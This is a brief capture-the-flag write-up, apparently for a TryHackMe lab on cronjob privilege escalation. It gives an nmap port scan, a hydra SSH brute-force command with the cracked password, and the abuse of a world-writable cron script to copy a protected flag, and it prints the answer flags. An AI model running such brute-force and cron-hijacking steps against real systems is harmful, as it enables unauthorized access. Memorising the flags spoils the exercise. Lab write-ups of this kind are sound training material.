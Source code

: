 # Cronjob Privilege Escalation

```
nmap scan
cracking password
priv escalation using crojob running every few minutes.
```

## Notes

```
export IP=10.10.231.131
```

## Questions

1. What port is ssh running on?

```
nmap host -p 4000-5000

Not shown: 1000 closed ports                                                                             │
PORT     STATE SERVICE                                                                                   │
4567/tcp open  tram

4567
```

2. Crack sam's password and read flag1.txt?

```
hydra -l sam -P <full path to pass> 10.10.231.131 -t 4 ssh -f -s 4567
sam:chocolate
THM{dec4389bc09669650f3479334532aeab}                                                                    │

```

3. Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

```
crontab -l wont show much.
cat /etc/crontab shows little
/home/scripts directory is interesting script is being ran every minute (full permission for everyone)
cp /home/ubuntu/flag2.txt /tmp/ && chmod 777 /tmp/flag2.txt

THM{b27d33705f97ba2e1f444ec2da5f5f61}

```
